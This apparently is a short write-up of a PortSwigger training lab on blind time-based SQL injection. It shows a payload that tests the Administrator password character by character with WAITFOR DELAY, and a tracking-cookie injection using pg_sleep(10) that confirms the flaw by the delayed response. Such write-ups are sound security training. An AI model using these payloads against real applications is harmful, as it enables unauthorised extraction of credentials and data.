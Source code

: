 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4223d6fa-21ed-41c3-b356-08be62bb4752)

## Solution :

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time: 

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

Request captured--

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/96b5d11f-59c4-4df8-a030-521231977764)


Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```

Query Changed -

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>' '||pg_sleep(10)--
```


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/556ddbc6-ae80-4529-a88b-5910f9a43958)

We get a response after 10 sec which confirms the SQL injection vulnerability.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/37a9afcd-637d-4bbd-acd4-08181e11cc5e)

Lab solved.

